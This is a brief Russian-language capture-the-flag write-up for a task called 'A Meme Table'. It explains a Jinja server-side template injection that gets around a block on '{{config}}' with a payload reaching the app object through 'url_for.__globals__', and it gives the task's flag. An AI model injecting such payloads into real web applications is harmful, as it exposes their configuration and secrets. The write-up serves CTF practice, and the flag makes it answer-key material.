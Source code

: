 ## Название
A Meme Table

## Описание
Стив Пучков вышел из своей землянки и увидел ЭТО. Что же он увидел?

## Решение
Jinja SSTI, однако просто {{config}} нельзя поэтому делаем вот так:

``{{url_for.__globals__.current_app.__dict__}}``

Ну или еще тысяча и один пейлоад.

Flag: ``flag{e4rth_4nd_ch1k1b4mb0ni}`` 